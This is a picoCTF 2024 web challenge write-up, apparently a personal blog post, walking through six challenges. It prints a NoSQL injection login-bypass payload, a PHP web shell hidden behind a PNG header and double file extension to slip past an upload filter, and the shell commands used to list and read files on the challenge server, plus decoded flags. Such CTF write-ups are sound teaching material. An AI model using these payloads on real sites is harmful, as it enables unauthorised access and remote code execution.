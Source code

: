 ```yaml
---
author: krill
published: true
tags:
  - ctf
  - web
title: PicoCTF_2024 Web Writeup
article_header:
  type: cover
---
```

I made a compilation of all the web challenges I solved during the just concluded picoCTF.
<!--more-->
Most of the challenges were easy and straight forward except the last challenge which I wouldn't be documenting here. 

## Bookmarklet
![](/images/CTF/pico2024/web/chall1.png)

Visiting the challenge instance, you get the following . .
![](/images/CTF/pico2024/web/book1.png)
you can solve the challenge by simply copying the javascript code in the form and pasting it in the browser console.

The code basically decrypts the encrypted data stored in the `encryptedflag` variable using the key `picoctf` and alerts the result which should contain the decrypted flag on the screen.

![](/images/CTF/pico2024/web/js.png)

## WebDecode
![](/images/CTF/pico2024/web/chall2.png)

We get this page when we visit the challenge instance.
![](/images/CTF/pico2024/web/decode.png)

 Clicking on the about page
 ![](/images/CTF/pico2024/web/about.png)

Inspecting the page (`ctrl` + `u`), shows the flag encoded in base64

![](/images/CTF/pico2024/web/base64.png)
you can easily decode that using https://cyberchef.io/ or using the base64 tool on your linux terminal

```
➜ echo -n 'cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDdiOTFjNzl9' | base64 -d
```


## IntroToBurp
![](/images/CTF/pico2024/web/chall3.png)

You get a registration form when you launch the challenge instance. 

Go ahead and create an account
![](/images/CTF/pico2024/web/register.png)

You get redirected to a dashboard where you are required to provide some form of `OTP` for `2fa` authentication. 

intercept the request with `burpsuite` and mangle the `otp` parameter - this should give you the flag. 
![](/images/CTF/pico2024/web/mangle.png)

## Unminify
![](/images/CTF/pico2024/web/chall4.png)

You can easily view the page source (`ctrl` + `u`) and search for the string `picoCTF{`, you should get the flag : )

## No Sql Injection
![](/images/CTF/pico2024/web/chall5.png)

Launching the instance, you are given a login page - from the name of the challenge, we can tell that we need to perform some form of `no-sql` injection. 

Using the payload below, I was able to bypass the user login

```
{"$ne":""}
```

Intercepting the request with `burpsuite` and sending to `repeater`, we get a response from the server containing a user detail which also includes the token which is the flag encoded in base64. 

![](/images/CTF/pico2024/web/nosql.png)

```
➜ echo -n "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uX2EyZTBkOWVmfQ==" | base64 -d 
```


## Trickster
![](/images/CTF/pico2024/web/chall6.png)

We are given a page that allows us to upload files to the server 
![](/images/CTF/pico2024/web/upload.png)

Using `wapalyzer` we can check what the website was built with in order to know what language the payload should be in. 

![](/images/CTF/pico2024/web/wap.png)

we should be able to upload a php payload in order to get remote-code-execution on the server.

uploading the php file, I got the following error : ( 

![](/images/CTF/pico2024/web/error.png)

seems the filter put in place checks that the file contains `.png`, so I went ahead to create another file `file.png.php` with the following payload.

```php
PNG;

<?php system($_GET['cmd']); ?> 
```

This was successful and we should be able to access the payload by visiting `/uploads/file.png.php`

![](/images/CTF/pico2024/web/image.png)

the flag was stored in a `.txt` file in the web root directory.
```
atlas.picoctf.net:59649/uploads/file.png.php?cmd=ls -la ../
```

you can just read that : )

```
atlas.picoctf.net:59649/uploads/file.png.php?cmd=cat ../G4ZTCOJYMJSDS.txt
```

_Sayonara~🍻_



